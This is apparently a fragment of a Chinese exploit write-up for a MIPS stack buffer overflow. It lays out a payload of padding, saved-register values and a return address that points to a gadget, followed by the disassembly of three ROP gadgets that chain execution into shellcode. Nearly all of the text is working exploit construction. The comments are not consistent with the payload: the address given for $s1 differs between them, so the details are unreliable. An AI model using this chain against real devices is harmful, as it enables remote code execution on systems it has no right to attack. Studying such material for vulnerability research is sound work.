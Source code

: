 栈的布置为：

```bash
# 执行前（溢出后）
payload = b'a'*504													# overflow
payload += b'b'*4														# $fp								 
payload += p32(lw_s3_gadget) 								# $ra  

payload += b'c'*36
payload += padding                        	# s0
payload += p32(loc_126440)				                # s1
payload += padding                        	# s2
payload += padding           								# s3
payload += p32(loc_23828)   											# ra  
payload += b'd'*28
payload += shellcode

loc_A0730:
.text:000A0730                               loc_A0730:                               # CODE XREF: sub_A0658+78↑j
.text:000A0730 34 00 BF 8F                   lw      $ra, 0x24+var_s10($sp)						# 52【$ra == &loc_23828】
.text:000A0734 30 00 B3 8F                   lw      $s3, 0x24+var_sC($sp)						# 48【$s3 == "TruE"】
.text:000A0738 2C 00 B2 8F                   lw      $s2, 0x24+var_s8($sp)						# 44【$s2 == "TruE"】
.text:000A073C 28 00 B1 8F                   lw      $s1, 0x24+var_s4($sp)						# 40【$s1 == &loc_11C370】
.text:000A0740 24 00 B0 8F                   lw      $s0, 0x24+var_s0($sp)						# 36【$s2 == "TruE"】
.text:000A0744 08 00 E0 03                   jr      $ra
.text:000A0748 38 00 BD 27                   addiu   $sp, 0x38												# 56

----------------------------------------------------------------------------------------------------------------
loc_23828:
.text:00023828                               loc_23828:                               # CODE XREF: sub_23790+5C↑j
.text:00023828 21 C8 20 02                   move    $t9, $s1													# 【$t9 ==  &loc_11C370】
.text:0002382C 09 F8 20 03                   jalr    $t9 
.text:00023830 1C 00 A5 27                   addiu   $a1, $sp, 0x24+var_8							# 0x1C(28):【$a1 == &shellcode】
----------------------------------------------------------------------------------------------------------------
loc_126440:
.text:00126440 21 C8 A0 00                   move    $t9, $a1
.text:00126444 4C 00 84 24                   addiu   $a0, 0x4C  # 'L'
.text:00126448 08 00 20 03                   jr      $t9
.text:0012644C 21 28 C0 00                   move    $a1, $a2
```
